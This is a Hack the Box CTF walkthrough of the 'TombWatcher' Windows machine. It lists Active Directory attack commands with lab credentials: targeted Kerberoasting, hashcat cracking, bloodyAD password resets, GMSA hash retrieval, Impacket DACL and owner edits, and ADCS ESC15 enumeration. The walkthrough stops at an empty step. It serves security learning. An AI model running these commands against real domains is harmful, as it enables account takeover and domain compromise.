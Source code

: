 # TombWatcher

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/38c052d5-4737-4dd6-a5ab-eddd228b28da)

2. With Henry's credentials, enumerate network using Bloodhound. Found high-level path to machine

![image](https://github.com/user-attachments/assets/acff890c-ed2b-45b7-a016-f0f7f93aebef)

3. With Henry's credentials, do a targeted kerberoast attack on Alfred
`targetedKerberoast.py -v -d tombwatcher.htb -u henry -p H3nry_987TGV!`

4. We crack the hash using hashcat and we get Alfred's password: basketball
`hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt`

![image](https://github.com/user-attachments/assets/60b15e59-d3fe-4e3a-b44e-e668b79b5e84)

5. Add Alfred to Infrastructure group using BloodyAD
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u ALFRED -p basketball add groupMember INFRASTRUCTURE ALFRED`

6. Get GMSA password using netexec
`nxc ldap 10.129.47.3 -u alfred -p basketball --gmsa`

![image](https://github.com/user-attachments/assets/cbdf43c4-6647-4fa9-a0a3-e2b0588ebf90)

7. Ansible_dev$ has ForceChangePassword priv on Sam. Use ansible_dev$'s hash to change Sam's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.3 -d TOMBWATCHER.HTB -u "ansible_dev\$" -p ":4b21348ca4a9edff9689cdf75cbda439" set password sam Password1`

8. Sam has WriteOwner privilege on John. Change John's owner to Sam using Impacket's owneredit.py script
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/owneredit.py -action write  -target 'John' -dc-ip 10.129.47.3 -new-owner 'sam' 'tombwatcher.htb'/'sam':'Password1'` 

![image](https://github.com/user-attachments/assets/7aaa18a9-d749-4a41-9860-1e97ad98812f)

9. Now that Sam is owner of John, give Sam FullControl rights on John's account with Impacket's dacledit.py script.
`sudo python3 /usr/lib/python3/dist-packages/impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password1' -dc-ip 10.129.47.32.88`

10. Can now change John's password
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.32.88 -d tombwatcher.htb -u sam -p Password1 set password john Password123`

11. John can PSRemote into the machine, so with evil-winrm we gain access to the box and get the user flag!

![image](https://github.com/user-attachments/assets/9622d803-053e-47d6-b7f0-bc889232e4fe)

12. From here, John has GenericAll privileges on the Certificate Services, ADCS, so give John FullControl of ADCS.
`dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal-dn 'CN=JOHN,CN=USERS,DC=TOMBWATCHER,DC=HTB' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Password123' -dc-ip 10.129.32.88`

![image](https://github.com/user-attachments/assets/b35acffb-19d6-4dcc-9fc6-a9ca3e13c40b)

13. Using Powershell, we look for all users in the ADCS group, but returns none.
`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/8eff94bc-94ec-48aa-8b0a-1fe221ba5ae6)

14. After considering the title of the box, TombWatcher, we look for deleted objects.
`Get-ADObject -Filter 'ObjectClass -eq "user" -and IsDeleted -eq $True' -IncludeDeletedObjects`

![image](https://github.com/user-attachments/assets/83112f89-da07-42af-ac6f-1d9b82f5faf5)

15. Shows the cert_admin user has been deleted. Let's try to restore the account and enable it again using PowerShell
`Restore-ADObject -Identity 'f80369c8-96a2-4a7f-a56c-9c15edd7d1e3'`

16. Check cert_admin account is restored
`Get-ADUser -Filter * -SearchBase "OU=ADCS,DC=TOMBWATCHER,DC=HTB"`

![image](https://github.com/user-attachments/assets/6a82727a-bf1b-4bcc-9990-d8539361fcef)

17. Success! Now, change cert_admin's password using John's GenericAll privs on that account
`sudo python3 /opt/bloodyAD/bloodyAD.py --host 10.129.47.78 -u john -p Password123 set password cert_admin Summer2025`

18. With cert_admin's account, we naturally enumerate for vulnerable certificate templates with certipy. Certipy returns a WebServer template that's vulnerable to ESC15
`certipy find -u cert_admin -p Summer2025 -dc-ip 10.129.47.78 -enabled -vulnerable`

![image](https://github.com/user-attachments/assets/e0ae6706-66dc-4b5b-96af-89790ca715c9)

19. 



